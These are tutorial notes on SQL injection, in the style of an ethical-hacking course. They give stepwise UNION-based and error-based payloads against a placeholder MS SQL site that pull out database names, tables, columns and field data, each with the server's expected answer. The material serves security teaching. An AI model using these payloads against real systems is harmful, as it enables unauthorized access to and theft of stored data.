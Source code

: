 ### launching attacks

#### Perform UNION SQL injection

An attacker uses the UNION clause to concatenate a malicious query with the original query to retrieve results from the target database table.

##### Extract Database name

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,DB_NAME,3,4--

[DB_NAME] returned from the server

##### Extract Database tables

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,TABLE_NAME,3,4 FROM sysobjects WHERE xtype=char(85)--

[EMPLOYEE_TABLE] returned from the server

##### Extract Table column names

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,COLUMN_NAME,3,4 FROM DB_NAME.information_schema.columns WHERE TABLE_NAME='EMPLOYEE_TABLE'--

[EMPLOYEE_NAME] returned from the server

##### Extract First Field data

http://www.certifiedhacker.com/page.aspx?id=1 UNION SELECT ALL 1,COLUMN-NAME-1,3,4 FROM EMPLOYEE_NAME --

[FIELD 1 VALUE] returned from the server

#### Perform Error based SQL injection

An attacker uses the database-level error messages disclosed by an application to build a vulnerability exploit request.

##### Extract Database name

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (DB_NAME))--

Syntax error converting the nvarchar value '[DB_NAME]' into a column of data type int

##### Extract First Database table

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (SELECT TOP 1 name FROM sysobjects WHERE xtype=char(85)))--

Syntax error converting the nvarchar value '[TABLE_NAME 1]' into a column of data type int

##### Extract First Table column name

http://www.certifiedhacker.com/page.aspx?id=1 or 1=CONVERT(int, (SELECT TOP 1 column_name FROM DB_NAME.information_schema.columns WHERE table_name='TABLE-NAME-1'))--

Syntax error converting the nvarchar value '[COLUMN NAME 1]' into a column of data type int
